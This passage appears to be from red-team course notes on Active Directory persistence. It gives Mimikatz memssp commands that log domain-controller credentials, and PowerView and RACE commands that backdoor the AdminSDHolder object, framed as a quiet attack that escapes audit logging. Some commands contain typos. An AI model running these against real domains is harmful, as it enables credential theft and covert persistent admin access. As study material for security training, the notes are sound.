 * Using mimikatz, inject into lsass (Not super stable with Server 2019 and Server 2022 but still usable) -

```
Invoke-Mimikatz -Command '"misc::memssp"'
```

**NOTE-  All local logons on the DC are logged to C:\Windows\system32\mimilsa.log**

**BONUS! --> "World readable directory on DOMAIN CONTROLLER --> **_**sysvol"**_

### AdminSDHolder - using ACLs (no 4662 record, so not a noisy attack :smile:)

**METHODOLOGY --> Basically, We are our own user to the AdminSDHolder group, so it will be added to a all the protected groups hourly!**

* Resides in the System container of a domain and used to control the permissions - using an ACL - for certain built-in privileged groups ( called Protected Groups).
* Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL.

Protected Groups -->

![](<.gitbook/assets/image (12).png>)

* Well known abuse of some of the Protected Groups - All of the below can log on locally to DC

![](<.gitbook/assets/image (13).png>)

* With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.
* In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it

Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA -

```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 - Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

Using ActiveDirectory Module and RACE toolkit - ([https://github.com/samratashok/RACE](https://github.com/samratashok/RACE))

```
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 - Right GenericAll -DistinguishedName'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder -

```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
